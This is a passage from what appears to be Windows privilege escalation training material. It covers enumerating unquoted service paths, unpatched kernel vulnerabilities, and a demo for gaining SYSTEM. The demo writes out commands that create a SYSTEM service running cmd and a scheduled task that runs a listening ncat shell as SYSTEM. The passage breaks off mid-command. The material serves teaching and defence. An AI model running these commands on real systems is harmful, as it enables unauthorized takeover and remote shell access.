 ```
If a malicious executable is inserted into any of the locations the service
checks, it will run as System.
```
```
The permissions on each folder and object still apply. Just because the path is
unquoted, it does not mean the current user has appropriate permissions.
Permissions should still be checked with icacls
```
4. Run: reg query HKLM\SYSTEM\CurrentControlSet\Services\ /s /v ImagePath | Select-String
    -Pattern "ImagePath" -CaseSensitive | Select-String -Pattern "system32" -NotMatch
       ◦ The following ImagePath should be identified:


```
▪ C:\Program Files\Windows Photo Viewer\ImagingDevices.exe
```
5. Run: sc qc "testservice1"

```
BINARY_PATH_NAME : C:\Program Files\Windows Photo Viewer\ImagingDevices.exe
```
_Sources:_

- CVE-2015-0016 Explanation
- Privilege Escalation Windows
- Common Windows Privilege Escalation Vectors

**Unpatched Kernel Vulnerabilities**

If there exists an unpatched LPE (local privilege escalation) vulnerability in the operating system
itself, this can be utilized to escalate privileges. A recent example of such a vulnerability is _CVE-
2018-8440: Local Windows ALPC Privilege Escalation Vulnerability_.

A malicious actor can use public or private exploits for unpatched vulnerabilities to escalate
privileges. A note about this type of privilege escalation is that the techniques typically exploit some
vulnerability during an interaction with the kernel. As such, if something were to go wrong, it can
sometimes crash the host, while a user-land privilege escalation will typically not be as risky.

**Gaining SYSTEM Access**

As mentioned earlier, SYSTEM is both an integrity level and a user account. A process with both a
SYSTEM user token and SYSTEM integrity level has unrestricted access to the operating system.
While there is no security boundary that distinguishes Administrator from SYSTEM, moving from
the former to the latter does require additional action.

**DEMO: SYSTEM Access and Defeating Protections**

1. Sysinternals:
    ◦ PSEXEC.exe -i -s -d CMD
2. Create an interactive service that runs as **SYSTEM**
    ◦ sc create cmd binpath= “cmd /K start” type= own type= interact
    ◦ net start cmd
3. Create a scheduled task that runs a listening ncat.exe as **SYSTEM**
    ◦ Create the Scheduled Task
       ▪ schtasks /create /tn "ncat" /ru SYSTEM /RL HIGHEST /tr

